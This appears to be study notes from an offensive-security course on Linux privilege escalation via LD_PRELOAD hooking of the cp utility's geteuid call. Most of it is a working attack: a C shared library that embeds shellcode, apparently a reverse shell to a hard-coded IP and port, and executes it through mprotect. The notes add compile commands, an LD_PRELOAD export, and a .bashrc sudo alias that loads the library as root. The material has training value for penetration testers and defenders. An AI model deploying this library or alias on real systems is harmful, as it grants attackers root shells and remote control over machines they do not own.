

## LD_PRELOAD
[LD_PRELOAD](https://man7.org/linux/man-pages/man8/ld.so.8.html) is an environment variable which, when defined on the system, forces the [dynamic linking loader](https://en.wikipedia.org/wiki/Dynamic_linker) to preload a particular shared library before any others. As a result, functions that are defined in this library are used before any with the same [method signature](https://en.wikipedia.org/wiki/Type_signature#Method_signature) that are defined in other libraries.
Methods we define in a library loaded by _LD_PRELOAD_ will override methods loaded later on.
Overriding methods in this way is a technique known as function [hooking]( Overriding methods in this way is a technique known as function hooking.[4](https://portal.offensive-security.com/courses/pen-300/books-and-videos/modal/modules/linux-post-exploitation/shared-libraries/exploitation-via-ld_preload#fn4))

We will be targeting the cp utility used to copy files on the linux system, the utility is often used in the sudo context and thus is an attractive target.
We can run _ltrace_ on the cp command to get a list of library function calls it uses during normal operation.

We will hook the call to geteuid as it seems to only be called once during the application run, which limits how frequently our code will be executed.
In our library, we'll simply redefine the _geteuid_ function.

Our code will be as follows:
1. Declaration of various C libraries.
2. Declaration of our variable payload
3. Define our _geteuid_ function. {no parameters (void) and returns a value of _uid_t_, which in this case is simply an integer.}
4. Define a pointer, which we'll use to point to the old _geteuid_ function(provides us access to the original function so that we can call it later on.)
5. Use the [_dlsym_](https://linux.die.net/man/3/dlsym) function to get the memory address of the original version of the _geteuid_ function(finds a symbol for a dynamic library in memory)
6. Call the _dlsym_ function with the name of geteuid symbol.
7. Create a new process for our shell using fork method.
8. The final two lines provide a meaningless return value

The code will we as follows:
```C
#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

char buf[] = 
"\x48\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\xb2\x07\x0f\x05\x48\x85\xc0\x78\x51\x6a\x0a"
"\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
"\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00\x05\x39\xc0\xa8"
"\x76\x03\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x59"
"\x48\x85\xc0\x79\x25\x49\xff\xc9\x74\x18\x57\x6a\x23\x58\x6a"
"\x00\x6a\x05\x48\x89\xe7\x48\x31\xf6\x0f\x05\x59\x59\x5f\x48"
"\x85\xc0\x79\xc7\x6a\x3c\x58\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e"
"\x5a\x0f\x05\x48\x85\xc0\x78\xed\xff\xe6";

uid_t geteuid(void)
{

	typeof(geteuid) *old_geteuid;
	old_geteuid = dlsym(RTLD_NEXT, "geteuid");

	if (fork() == 0)
        {
                intptr_t pagesize = sysconf(_SC_PAGESIZE);
                if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
                 pagesize, PROT_READ|PROT_EXEC)) 
                {
                        perror("mprotect");
                        return -1;
                }
                int (*ret)() = (int(*)())buf;
                ret();
        }
        else
        {
                printf("HACK: returning from function...\n");
                return (*old_geteuid)();
        }
        printf("HACK: Returning from main...\n");
        return 3;
}


```

The code within the _fork_ branch checks that the shellcode resides on an executable memory page before executing it. The reason for this additional step is that the -f PIC compilation flag relocates our shellcode to the library _.data_ section in order to make it position independent.
The code gets the size of a memory page so it knows how much memory to access. It then changes the page of memory that contains our shellcode and makes it executable using _mprotect_.
It does this by setting its access properties to _PROT_READ_ and _PROT_EXEC_, which makes our code readable and executable.
If changing the memory permissions fails, the program will exit with a return code of "-1".

Compiling the code with the following lines:
```sh
gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c
gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
```

Changing the export path:
```sh
export LD_PRELOAD=/home/offsec/evil_geteuid.so
```

and executing the binary, we get a shell.

As a final step, for privilege escalation, we can add the following to .bashrc file to run the binary in sudo context if sudo is being used.
```sh
alias sudo="sudo LD_PRELOAD=/home/offsec/evil_geteuid.so"
```

